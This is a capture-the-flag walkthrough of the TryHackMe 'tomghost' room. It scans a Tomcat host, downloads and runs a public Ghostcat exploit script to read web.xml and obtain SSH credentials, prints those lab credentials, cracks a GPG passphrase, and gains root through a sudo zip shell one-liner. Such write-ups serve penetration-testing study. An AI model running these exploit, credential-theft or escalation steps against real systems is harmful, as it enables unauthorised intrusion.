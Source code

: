 ```yaml
---
title: Walkthrough - tomghost
published: true
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

* * *

## Path to Machine

- ``nmap -T4 -p- 10.10.124.33 -vvv``

```shell
22/tcp   open  ssh
53/tcp   open  tcpwrapped syn-ack ttl 61
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
```

- Port 8080 has an apache tomcat container
- ``gobuster dir -u http://10.10.124.33:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,php,html --no-error``
- ``locate 49716``
- lets check out the pdf and learn about the exploit

## Ghostcat Exploitation

- ``wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py``
- this will read the XML file containing a users's ssh key
- ``python3 ajpShooter.py http://10.10.35.112:8080 8009 /WEB-INF/web.xml read``

![0xskar](/assets/tomghost01.png)

- skyfuck:8730281lkjlkjdqlksalks

- ``scp skyfuck@10.10.35.112:/home/skyfuck/* .`` to get the gpg file so we can use gpg2john to create a hash from the asc file.
- ``john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash`` = ``alexandru        (tryhackme)``

Now that we have the passphrase to decrtypt the gpg file, we can import the gpg key and then decrypt it.

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --import ./tryhackme.asc                                                     
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and then...

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j  
```

Now we have the second user name and user credentials so we can ssh to login and then escalate to become root.


```shell
merlin@ubuntu:/tmp$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So we can run this to get root:

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

* * * 

## User.txt

- ``cat /home/merlin/user.txt``

* * * 

## Root.txt

- ``cat /root/root.txt``

* * * 